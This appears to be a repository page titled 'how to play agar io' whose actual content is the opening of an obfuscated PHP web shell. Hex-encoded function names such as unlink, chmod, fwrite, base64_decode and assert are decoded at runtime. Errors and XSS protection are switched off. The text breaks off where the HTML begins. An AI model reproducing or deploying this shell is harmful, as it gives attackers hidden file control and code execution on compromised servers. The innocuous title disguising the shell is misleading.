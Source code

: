 # hongkong
how to play agar io

<?php header("X-XSS-Protection: 0");ob_start();set_time_limit(0);error_reporting(0);ini_set('display_errors', FALSE);
$Array = [
		'7068705f756e616d65',
		'70687076657273696f6e',
		'6368646972',
		'676574637764',
		'707265675f73706c6974',
		'636f7079',
		'66696c655f6765745f636f6e74656e7473',
		'6261736536345f6465636f6465',
		'69735f646972',
		'6f625f656e645f636c65616e28293b',
		'756e6c696e6b',
		'6d6b646972',
		'63686d6f64',
		'7363616e646972',
		'7374725f7265706c616365',
		'68746d6c7370656369616c6368617273',
		'7661725f64756d70',
		'666f70656e',
		'667772697465',
		'66636c6f7365',
		'64617465',
		'66696c656d74696d65',
		'737562737472',
		'737072696e7466',
		'66696c657065726d73',
		'746f756368',
		'66696c655f657869737473',
		'72656e616d65',
		'69735f6172726179',
		'69735f6f626a656374',
		'737472706f73',
		'69735f7772697461626c65',
		'69735f7265616461626c65',
		'737472746f74696d65',
		'66696c6573697a65',
		'726d646972',
		'6f625f6765745f636c65616e',
		'7265616466696c65',
		'617373657274',
];
$___ = count($Array);
for($i=0;$i<$___;$i++) {
	$GNJ[] = uhex($Array[$i]);
}
?>
<!DOCTYPE html>
	<html dir="auto" lang="en-US">

